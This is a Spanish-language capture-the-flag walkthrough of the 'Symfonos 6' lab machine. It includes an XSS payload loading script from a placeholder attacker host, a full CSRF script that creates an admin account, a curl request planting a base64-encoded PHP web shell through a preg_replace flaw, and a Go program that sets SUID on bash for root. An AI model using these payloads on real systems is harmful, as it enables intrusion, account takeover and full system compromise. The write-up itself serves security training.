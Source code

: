 # Symfonos 6

**Sistema Operativo**: Linux

**Dificultad**: Media

**Técnicas Vistas**: Web Enumeration /
FlySpray Exploitation /
Abusing FlySpray / Cross Site Scripting (XSS) /
Getting the administrator to create a new privileged user through XSS /
Information Leakage /
Gitlab Enumeration /
Abusing API + Preg_Replace to achieve RCE on the creation of a new post /
Abusing sudoers privilege (go) [Privilege Escalation] 

Te prepara para las **Certificaciones**: eWPT /
eWPTXv2 /
OSWE /
eCPPTv2 /
eCPTXv2 

![image](https://github.com/user-attachments/assets/209dae1a-8407-4cc4-95c4-9a5e899058e6)

# Reconocimiento

Aplicamos un barrido en la red local utilizando `arp-scan` para encontrar la IP de la maquina victima:
![image](https://github.com/user-attachments/assets/4f811da8-2144-4421-aa50-31cd3733c28e)
- `-I eth0` -> Mi interfaz grafica.
- `--localnet` -> Red local.
- `--ignoredups` -> Que ignore duplicados.



Utilizando `nmap` vemos los puertos abiertos.



![image](https://github.com/user-attachments/assets/dbcc4648-08ff-4126-8cda-afcb1d2dea2c)
- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"


Utilizando `nmap` lanzamos los scripts mas comunes.



![image](https://github.com/user-attachments/assets/58c43f4f-d792-4f2b-9605-a7e27c5318b0)
- `OpenSSH 7.4` -> Versión SSH desactualizada
- `PHP 5.6.40` -> Versión PHP desactualizada

Utilizando `gobuster` encontramos la carpeta **flyspray**
![image](https://github.com/user-attachments/assets/d3f4cb9e-e7a8-471c-ba33-279954cb5678)
- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `-x` -> Extensiones que quiero que pruebe
- `--add-slash` -> Que coloque una barra al final
- `grep -v "500"` ->  No quiero ver código de estado 500

Simplemente nos registramos
![image](https://github.com/user-attachments/assets/a1b0ed98-681a-4e35-975e-a41f31258032)

---

# CSRF

Utilizaremos este **exploit** para explotarlo:

https://www.exploit-db.com/exploits/41918 

En el campo "Real Name" colocaremos ` "><script src=http://IPATACANTE/pwned.js></script>  `
![image](https://github.com/user-attachments/assets/a2c821bb-02e3-4cfc-9ae8-a8f8eaf01632)



Creamos el archivo `pwned.js`, el cual creara un usuario "hacker" y de contraseña "12345678" con privilegios **root**.

```
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

Abrimos con Python el puerto 80, donde se encuentra nuestro `pwned.js`.



![image](https://github.com/user-attachments/assets/d9fb5817-56f7-4177-91c9-bb655895b98e)

Ponemos un comentario



![image](https://github.com/user-attachments/assets/2f28b883-fbdb-4f20-837a-029608be1659)



Usuario: achilles,
Contraseña: h2sBr9gryBunKdF9



![image](https://github.com/user-attachments/assets/b96c42ea-07e4-43a0-9c64-8a78a4265ea6)

Nos autenticamos como **achilles** en http://symfonos.local:3000 



![image](https://github.com/user-attachments/assets/4110883e-2d2d-4e41-95d6-5d8daa7710b0)

-----


# Explotación de api

Una vez adentro  en los repositorios de achilles, investigando vamos a ver:

Preg_replace



![image](https://github.com/user-attachments/assets/0c2556e6-e1c1-43ea-89ad-3f57331d0daf)
- ` /.*/e ` -> Una expresion regular con **Modificador e** -> vulnerable (le podes meter código php)
- `$content` -> contenido
- `"WIN"` -> una palabra

-----

### Investigando mas vamos armar esta URL api:

curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" 

Luego encontraremos que me pide un campo "username" y un campo "password".



![image](https://github.com/user-attachments/assets/335a9400-6486-436c-9680-594080a86d9c)


- ` curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" -H "Content-Type: application/json" -d '{"username":"achilles", "password":"h2sBr9gryBunKdF9"}' `

- `-H` -> El Content Type para que me reconozca la data json
- `-d` -> Data en json que quiero mandar
- `username` -> campo username
- `password` -> campo password

Esto nos dará un json web token (pero no tenemos el secreto), asi que por ahora no nos sirve.
Vemos que el "id":1 -> Nos va a servir para explotar el preg_replace 
![image](https://github.com/user-attachments/assets/f5923926-b674-44f6-bc7c-9c8019f50b0c)


---

Vemos que indicando una petición por `PATCH`, y pasando el `id` (que es 1), podemos actualizar el post que esta en http://symfonos.local/posts/ 



![image](https://github.com/user-attachments/assets/c8da2743-dffe-4681-a9a6-f85f9b298fdb)

Al parecer necesitamos poner un campo "text"
![image](https://github.com/user-attachments/assets/d3b97eb3-18ab-4df5-9f8b-977a9304d1be)




Pongo en base64 este script php:



![image](https://github.com/user-attachments/assets/ee6ad1f0-b980-49c8-bc73-41822176ffc2)


- `  curl -s -X PATCH "http://symfonos.local:5000/ls2o4g/v1.0/posts/1" -H "Content-Type: application/json" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MjE0ODU3NDAsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.SPUuZ3ybrOID6ktLJNDysNiJK_t97wdwCp5w18puiqg" -d $'{"text": "file_put_contents(\'cmd.php\', base64_decode(\'PD9waHAKIHN5c3RlbSgkX0dFVFsnY21kJ10pOwo/Pgo=\'))"}'   `


- `file_put_contents` -> Crear un archivo y ponerle lo que quieras.

- `base64_decode` -> decodificar el  script php en base64 que hicimos

Query para ganar acceso a la maquina:
![image](https://github.com/user-attachments/assets/593c465a-c4ba-41ce-8f50-8787b5fe0dc8)
![image](https://github.com/user-attachments/assets/54833dc5-a1fa-4111-8dff-15866f1daf30)

-------

# Escalada de privilegios

Nos conectamos como achilles



![image](https://github.com/user-attachments/assets/2ff56b4e-e61e-4a46-b6a4-f269a9171b45)


Con `sudo -l` vemos que podemos ejecutar el binario `go` como root.
![image](https://github.com/user-attachments/assets/6dda3791-38b1-4c56-b0c1-734ff06084d5)


Script de `go` , para ponerle SUID a la bash

https://zetcode.com/golang/exec-command/

```go
package main

import (
    "log"
    "os/exec"
)

func main() {

    cmd := exec.Command("chmod", "u+s", "/bin/bash")

    err := cmd.Run()

    if err != nil {
        log.Fatal(err)
    }
}
```

Ejecutamos con `sudo /usr/local/go/bin/go run go.go` 



![image](https://github.com/user-attachments/assets/634f37ef-7dbe-4d95-b62e-0db8308fd913)

- `go.go ` -> Nombre de mi script
- `run` -> para que inicie mi script

Flag Final:



![image](https://github.com/user-attachments/assets/f0572425-da98-4098-bc91-e878ca7193ea)
